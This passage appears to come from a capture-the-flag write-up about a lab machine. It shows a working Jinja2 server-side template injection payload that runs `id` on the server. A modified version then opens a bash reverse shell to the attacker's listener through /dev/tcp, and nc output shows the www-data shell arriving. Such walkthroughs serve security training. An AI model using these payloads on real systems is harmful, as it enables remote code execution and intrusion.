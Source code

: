 

I'll modify it slightly to try to run the `id` command:



    >>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('id').read()}}{%endif%}{%endfor%}'''



This is finding a way to locate the `import` command and then get the
`os` module without having access to just call `import`, which isn't
possible in SSTI.

It works:



    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload})
    >>> print(resp.text)

        .md>
        <head>
        <title>uid=33(www-data) gid=33(www-data) groups=33(www-data)
     - Coming Soon</title>
        </head>
        <body> 
        </body>
        <.md>



#### Shell

I'll modify that again to get a reverse shell, and (with `nc` listening
on 443) send it:



    >>> payload = '''{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read()}}{%endif%}{%endfor%}'''
    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": payload}); print(resp.text)



It just hangs for a minute or so (before returning a 504), but at `nc`,
there's a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.131 53856
    bash: cannot set terminal process group (632): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@flustered:~.md/app$



I'll upgrade with the `script` trick:


